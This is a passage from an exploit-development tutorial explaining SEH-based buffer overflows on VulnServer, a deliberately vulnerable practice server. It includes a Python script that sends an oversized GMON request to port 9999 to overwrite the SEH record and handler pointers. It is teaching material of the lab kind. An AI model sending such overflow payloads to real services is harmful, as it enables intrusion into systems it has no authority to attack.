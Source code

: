 Now in Part 1 [Here](https://m0chan.github.io/2019/08/20/Simple-Win32-Buffer-Overflow-EIP-Overwrite.html) - We were able to control the *execution flow* over VulnServer & SLMail to redirect it too our own *shellcode* and pop a reverse shell, now of course this was a really old vulnerability and SEH was supposed to resolve this but it was a really poor implementation and soon exploited itself. 



Now I don't want to show off a crazy example here as I will cover it in the **Examples** section below, but the theory here is we do not overwrite EIP with user control input but instead overwrite the pointer to **next SEH record** aka **Exception Registration Record** as well as the pointer to the **SE Handler** to an area in memory which we control and can place our shellcode on.



<p align ="center">
<img src="https://i.imgur.com/GQMPjbu.png">
</p>



As you can see here we have not overwritten the **EIP Register** with `41414141` similar to Part1 but instead overwritten the pointers to **SE Handler** and **SEH Record**. Now before we jump to talking about Egghunters and how they can be of use when doing *SEH Overflows* - I quickly want to show you how we can control the **EIP Register** compared to the pointers to **SE Handler** and **SEH Record**.



I won't go into deep specifics but this if we can *fuzz* a never-repeating string and then calculate the offset that we overwrite the **SE Handler** & **SE Record** with data of our choice which could be used to control EIP. 



With the below example I analyzed that the offset too **SE Record** was `3519 Bytes` therefore I added 4 x B's over **SE Record** and 4 x C's over **SE Handler**. Check out the script below.



```python
#!/usr/bin/python
import socket
import sys


nseh = "BBBB" 
seh = "CCCC"

buffer="A" * 3515
buffer += nseh
buffer += seh

junk = "D"*(4500-len(buffer))
buffer += junk

try:
	print "[*] Starting to Fuzz GMON"
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	connect=s.connect(('bof.local',9999))
	print "[*] Connected to bof.local on Port 9999"
	s.send(('GMON /.:/' + buffer))
	print "[*] Finished Fuzzing Check SEH Chain on Immunity"
	s.close()
except:
	print "couldn't connect to server"
```
